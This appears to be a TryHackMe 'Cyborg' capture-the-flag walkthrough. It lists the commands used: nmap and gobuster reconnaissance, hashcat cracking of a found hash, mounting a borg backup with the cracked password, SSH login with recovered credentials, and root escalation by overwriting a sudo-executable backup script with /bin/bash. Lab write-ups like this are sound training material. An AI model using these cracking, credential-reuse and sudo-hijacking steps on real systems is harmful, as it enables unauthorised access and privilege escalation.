 # Cyborg

**Room Link:** [https://tryhackme.com/room/cyborgt8](https://tryhackme.com/room/cyborgt8)

## Scanning

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>







### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>



### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (50) (2).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

## Hash

**Link:** [https://hashcat.net/wiki/doku.php?id=example\_hashes](https://hashcat.net/wiki/doku.php?id=example\_hashes)

<figure><img src="../../.gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
hashcat -m 1600 password /usr/share/wordlists/rockyou.txt
hashcat -m 1600 password --show
```

<figure><img src="../../.gitbook/assets/image (138).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (22) (8).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
sudo apt install borgbackup -y
mkdir backup
borg mount home/field/dev/final_archive backup
Password: squidward
```

Within the backup I can see credentials for alex

<figure><img src="../../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh alex@$VICTIM
Password: S3cretP@s3
```

<figure><img src="../../.gitbook/assets/image (76) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (29) (2).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**

**Victim**

```
chmod 777 /etc/mp3backups/backup.sh
echo "/bin/bash" > /etc/mp3backups/backup.sh
sudo /etc/mp3backups/backup.sh 
```

<figure><img src="../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>











